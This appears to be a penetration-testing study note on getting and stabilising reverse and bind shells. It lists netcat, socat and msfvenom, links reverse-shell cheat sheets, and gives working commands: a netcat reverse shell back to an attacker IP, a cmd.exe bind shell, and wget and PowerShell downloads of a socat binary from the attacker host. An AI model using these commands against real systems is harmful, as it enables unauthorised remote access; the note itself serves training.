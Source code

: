 # PRIVILEGE ESCALATION 

## WHAT THE SHELL 

TOOLS 
- netcat
- socat
- metasploit -- multi/handler
> auxiliary/multi/handler 
- msfvenom

Aside from the tools we've already covered, there are some repositories of shells in many different languages 
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
- https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- Kali ( PreInstalled) - `/usr/share/webshells`

**TYPES OF SHELL**

- Reverse Shell 
> Reverse shells are when the target is forced to execute code that connects back to your computer 
- Bind Shell 
> Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on the target.
> This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target

### TYPES OF SHELL 


**Reverse Shell**   
Nine times out of ten, this is what you'll be going for .


On the attacking machine:
```
sudo nc -lvnp 443
```

On the target:
```
nc <LOCAL-IP> <PORT> -e /bin/bash
```

**Bind Shell**  
Bind shells are less common, but still very useful.

On the target:
```
nc -lvnp <port> -e "cmd.exe"
```

On the attacking machine:
```
nc MACHINE_IP <port>
```

### NETCAT Shell Stabilisation 

**TECHNIQUE 1: python**  
The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

- The first thing to do is use **python -c 'import pty;pty.spawn("/bin/bash")'**, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace **python** with **python2** or **python3** as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
- Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
- Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

![nc](./media/9-nc-stabilize.png)

**TECHNIQUE 2: rlwrap**

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap.`

To use rlwrap, we invoke a slightly different listener:
```
rlwrap nc -lvnp <port>
```

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.


**TECHNIQUE 3: Socat**   
> https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true 
> binary 

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.



 





